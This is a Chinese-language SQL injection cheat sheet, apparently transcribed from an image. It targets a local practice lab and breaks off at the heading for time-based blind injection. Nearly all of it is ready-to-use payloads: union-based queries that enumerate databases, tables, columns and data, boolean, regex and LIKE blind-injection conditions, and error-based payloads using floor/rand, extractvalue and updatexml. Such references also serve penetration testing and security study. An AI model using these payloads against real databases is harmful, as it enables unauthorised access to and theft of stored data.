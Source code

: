     1. http://127.0.0.1/sqllib/?id=1’ order by 列数--+    #如果超过查询的列数则报错。
    2. http://127.0.0.1/sqllib/?id=-1’ union select 1,2--+    # 可以确定数据表列数。
    3. http://127.0.0.1/sqllib/?id=-1’ union select 1,database()--+    # 获取数据库名称。
    4. http://127.0.0.1/sqllib/?id=-1’ union select 1,group_concat(schema_name) from information_schema.schemata--+    # 爆数据库。
    5. http://127.0.0.1/sqllib/?id=-1’ union select 1,group_concat(table_name) from information_schema.tables where table_schema=’数据库名’--+    # 爆某数据库的数据表。
    6. http://127.0.0.1/sqllib/?id=-1’ union select 1,group_concat(column_name) from information_schema.columns where table_name=’表名’--+    # 爆某数据表的列。
    7. http://127.0.0.1/sqllib/?id=-1’ union select 列名 from 表名--+    # 爆数据。

### 盲注：

- 基于布尔SQL盲注，构造逻辑判断
        
        1. left(database(),1)>'s'
        2. ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=101--+
        3. ascii(substr((select database()),1,1))=98
        4. ord(mid((select ifnull(cast(username as char),0x20)from security.users order by id limit 0,1),1,1))>98--+

- 正则注入：

        1. select user() regexp ‘^[a-z]’

        示例：
        1. select * from users where id=1 and 1=(if((user() regexp ‘^r’),1,0))
        2. select * from users where id=1 and 1=(user() regexp ‘^ri’)
        3. select * from users where id=1 and 1=(select 1 from information_schema.tables where table_schema=’security’ and table_name regexp ‘^us[a-z]’ limit 0,1)

- like匹配注入

        select user() like ‘ro%’

- 基于报错的SQL盲注，构造payload让信息通过错误提示回显出来

        select 1,count(*),concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand(0)*2)) from a information_schema.columns group by a;
        简化为：select count(*) from information_schema.tables group by concat(version(),floor(rand(0)*2));
        
        如果关键的表被禁用了，可以使用：
        select count(*) from (select 1 union select null union select !1) group by concat(version,floor(rand(0)*2));

        如果rand被禁用可以使用用户变量来报错：
        select min(@a:=1) from information_schema.tables group by concat(password,@a:=(@a+1)%2)

        select exp(~(select * from (select user())a));
        select !(select * from (select user())x)-~0
        extractvalue(1,concat(0x7e,(select @@version),0x7e))
        updatexml(1,concat(0x7e,(select @@version),0x7e),1)
        select * from (select name_const(version(),1),name_const(version(),1))x;

- 基于时间的SQL盲注，延时注入
   